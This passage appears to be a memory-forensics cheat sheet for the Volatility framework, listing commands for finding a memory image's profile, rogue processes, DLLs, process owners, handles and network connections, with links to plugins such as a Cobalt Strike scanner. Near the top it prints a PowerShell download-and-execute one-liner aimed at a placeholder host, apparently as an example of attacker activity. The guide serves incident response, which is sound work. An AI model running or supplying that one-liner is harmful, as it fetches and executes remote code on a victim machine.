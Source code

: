 ```IEX(New-Object System.Net.WebClient).downloadstring(‘http://example.com/foo.exe’)```
Investigating Windows threads with volatility. <http://mnin.blogspot.com/2011/04/investigating-windows-threads-with.html>

**Github plugins**: Third party plugins can be used with volatility and will be very useful in assessing some malware that is on the system.

Make sure if you are using the `-–plugin` switch, that it appears first in the command line for it to successfully run ie, 

`volatility --plugin=<path_to_dir> -f <image> --profile=<profile> [command]`

`USBSTOR`: Scans registries for values relating to USB devices plugged into the system. <https://github.com/kevthehermit/volatility_plugins/tree/master/usbstor>

`cobaltstrikescan.py`: Used for detecting Cobalt Strike using volatility. <https://github.com/JPCERTCC/aa-tools/blob/master/cobaltstrikescan.py>

**Getting profile information**: When you first have a memory image the profile of the image will need to be extracted to use with the other commands that will be run, this can be done using the following on the Linux SIFT,

`vol.py -f image.raw imageinfo > imageinfo.txt`

This can be used in conjunction with the following to get a better idea of the profile,

`vol.py -f image.raw kdbgscan > kdbgscan.txt`

**Rogue processes**: A good place to start is, 

`vol.py -f image.raw --profile=<profile> psscan > psscan.txt`

`vol.py -f image.raw --profile=<profile> pstree > pstree.txt`

This can then be further dug into using pslist with the `-p` option for a process ID. 

**Command line arguments for processes**: We can get a list of DLLs attached to the processes and the command line invocation used with, 

`vol.py -f image.raw --profile=<profile> dlllist`

We can also use the optional `-p` option to look at a single process.

**User that ran a process**: It may be useful to know which user started a process particularly if we have already identified a rouge user account.

`vol.py -f image.raw --profile=<profile> getsids -p <PID>`

We can then grep the whole output of getsids to see what else the user was running.

`vol.py -f image.raw --profile=<profile> getsids |grep -i <username>`

**Looking at handles**: The volatility handles plugin can be used to help further identify further IOCs or can be used to so network indicators that may be in processes that should be. 

The following command shows how to get the handles in a good format for a single process, 

`vol.py -f image.raw --profile=<profile> handles -s -t File,Key -p <PID>`

**Network artifacts**: We can review the network connections with the following command,

`vol.py -f image.raw --profile=<profile> netscan > netscan.txt`

This can further be filtered by adding using, `egrep -i ‘CLOSE|ESTABLISHED|Offset`.
```